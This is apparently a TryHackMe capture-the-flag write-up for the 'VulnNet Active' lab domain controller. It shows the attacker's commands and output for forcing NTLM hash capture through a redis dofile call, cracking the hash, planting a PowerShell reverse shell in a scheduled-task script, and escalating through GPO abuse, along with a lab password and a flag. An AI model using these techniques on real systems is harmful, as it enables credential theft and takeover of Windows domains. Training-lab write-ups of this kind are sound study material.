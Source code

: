 # THM: Vulnnet Active

## Reconnaissance

The combination of ports listening on this box identifies it as a domain
controller. Nothing of interest was found except on port 6379 for the redis
service which can be accessed with the `redis-cli` utility.

This verision of redis can be used to access remote files. This can be abused by
using responder to capture the NTLM hash when trying to access a non existent
share file on our attack box. 

```
10.10.221.3:6379> eval "dofile('//10.13.2.223/pentest')" 0
(error) ERR Error running script (call to f_c496c0935f1f7842cdd38acc49c6048f41a7e89d): @user_script:1: cannot open //10.13.2.223/pentest: Permission denied 
(1.05s)

```

```
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.221.3
[SMB] NTLMv2-SSP Username : VULNNET\enterprise-security
[SMB] NTLMv2-SSP Hash     : enterprise-security::VULNNET:...snip...
```

This hash can be cracked with john and the rockyou wordlist. We now have a valid
set of credentials for the enterprise-security user.

```
[kali@kali ~/thm/vulnnet-active/loot] john --wordlist=/usr/share/wordlists/rockyou.txt hash                          
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
...snip...  (enterprise-security)
```

Accessing the SMB shares as an authenticated user we can see an interesting
file, `\Enterprise-Share\PurgeIrrelevantData_1826.ps1`. An assumption can be
made that this script is part of a scheduled task.

```
[kali@kali ~/thm/vulnnet-active/loot] smbclient -U 'enterprise-security' -L \\10.10.199.186
Password for [WORKGROUP\enterprise-security]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Enterprise-Share Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

```
[kali@kali ~/thm/vulnnet-active/loot] smbclient -U 'enterprise-security' //10.10.199.186/Enterprise-Share
Password for [WORKGROUP\enterprise-security]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Feb 23 17:45:41 2021
  ..                                  D        0  Tue Feb 23 17:45:41 2021
  PurgeIrrelevantData_1826.ps1        A       69  Tue Feb 23 19:33:18 2021

		9558271 blocks of size 4096. 4988636 blocks available
```

## Initial Access

Since we have permissions to write to this share I overwrote this script with
the contents of Invoke-PowershellTcp from Nisang. `Invoke-PowerShellTCP -Reverse
-IPAddress 10.13.2.223 -Port 80` appended to the file. After a few minutes the
scheduled task executes and we catch a powershell session with our listener.

```
[kali@kali ~/thm/vulnnet-active] sudo nc -nlvp 80    
[sudo] password for kali:                        
listening on [any] 80 ...
connect to [10.13.2.223] from (UNKNOWN) [10.10.199.186] 49867
Windows PowerShell running as user enterprise-security on VULNNET-BC3TCK1
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\enterprise-security\Downloads>
```

## Privilege Escalation

Running Sharphound and importing the data to Bloodhound we find that our current
user has _GenericWrite_ over SECURITY-POL-VN Group Policy Object. We can abuse
this misconfiguration by creating a malicious scheduled task with 
`SharpGPOAbuse.exe` adding our current user to the local administrators group. 

![Bloodhound](screenshots/2022-11-25_16-57.png)

```
PS C:\Enterprise-Share> .\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
[+] Domain = vulnnet.local
[+] Domain Controller = VULNNET-BC3TCK1SHNQ.vulnnet.local
[+] Distinguished Name = CN=Policies,CN=System,DC=vulnnet,DC=local
[+] GUID of "SECURITY-POL-VN" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] Creating file \\vulnnet.local\SysVol\vulnnet.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```

After running `gpupdate` we can now get an interactive shell as a local admin by
logging in as the enterprise-security user.

```
[kali@kali ~/thm/vulnnet-active/exploit] impacket-psexec -dc-ip 10.10.93.186 enterprise-security:'sand_0873959498'@10.10.93.186                               
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.93.186.....
[*] Found writable share ADMIN$
[*] Uploading file hEySwjFB.exe
[*] Opening SVCManager on 10.10.93.186.....
[*] Creating service uuBk on 10.10.93.186.....
[*] Starting service uuBk.....
[!] Press help for extra shell commands                                              Microsoft Windows [Version 10.0.17763.1757]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> type C:\Users\Administrator\Desktop\System.txt                  THM{d540c0645975900e5bb9167aa431fc9b}
THM{...snip...}
```
